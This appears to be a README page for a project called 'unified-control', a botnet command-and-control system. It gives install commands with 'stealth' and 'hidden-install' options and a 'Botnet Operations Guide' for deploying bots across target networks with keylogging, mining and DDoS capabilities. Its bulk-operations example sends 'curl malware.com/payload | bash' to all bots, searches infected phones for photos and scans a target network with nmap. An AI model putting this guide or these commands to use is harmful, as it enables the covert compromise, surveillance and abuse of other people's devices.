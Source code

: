 ### Linux/Server - Main Control Infrastructure
```bash
git clone https://github.com/MrNova420/unified-control.git
cd unified-control
./install.sh && ./start_unified.sh
```

### Advanced Installation Options
```bash
# Enterprise deployment with custom configuration
./install.sh --enterprise --max-bots 50000 --workers 500

# Stealth deployment with minimal footprint
./install.sh --stealth --hidden-install

# Multi-server cluster deployment
./install.sh --cluster --nodes 10
```

## 🎯 Botnet Operations Guide

### Creating Bot Networks

#### **Mass Bot Deployment**
1. Access Control Dashboard: `http://your-ip:8766/ui?token=YOUR_TOKEN`
2. Navigate to "BOT CONTROL" tab
3. Select bot template (Mobile, Server, Stealth, etc.)
4. Deploy across target networks
5. Monitor real-time connection status

#### **Custom Bot Creation**
1. Click "Custom Bot" template in dashboard
2. Define capabilities (keylogging, mining, ddos, etc.)
3. Set deployment parameters
4. Generate custom deployment script
5. Deploy to specific targets

#### **Bulk Operations**
```javascript
// Execute across all bots
target: "all" 
command: "curl malware.com/payload | bash"

// Target specific bot types
target: "tag:mobile"
command: "termux-setup-storage && find /sdcard -name '*.jpg'"

// Advanced network operations
target: "tag:scanners"
command: "nmap -sS -O target-network.com"
```
